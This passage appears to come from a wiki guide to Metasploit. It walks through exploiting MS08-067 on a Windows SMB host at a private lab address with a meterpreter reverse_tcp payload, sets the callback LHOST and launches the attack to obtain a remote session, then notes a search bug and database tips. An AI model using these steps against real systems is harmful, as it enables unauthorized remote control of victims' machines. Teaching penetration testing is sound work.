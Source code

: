  `msf exploit(ms08_067_netapi) > show options` 
```
Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.56.102   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

```

Now assign `LHOST` variable to the address of your computer, where the exploited computer will send connection requests to:

```
msf exploit(ms08_067_netapi) > set LHOST 192.168.56.1

```

Now launch the attack!

```
msf exploit(ms08_067_netapi) > exploit

```

If you are lucky, you will be dropped to a Meterpreter session where you can do anything on the remote computer. See [#Meterpreter](#Meterpreter) for available commands.

## Bugs

### Search does not filter properly

Currently the `search` command in `msfconsole` does not properly filter the results if more than 1 filters are specified. See [the bug report](https://dev.metasploit.com/redmine/issues/8822) for details.

See [#Searching from the database](#Searching_from_the_database) for a workaround.

## Tips and tricks

### Searching from the database

Since everything in Metasploit is stored in a database, it is easy to make powerful search queries without the need of the `search` frontend command.
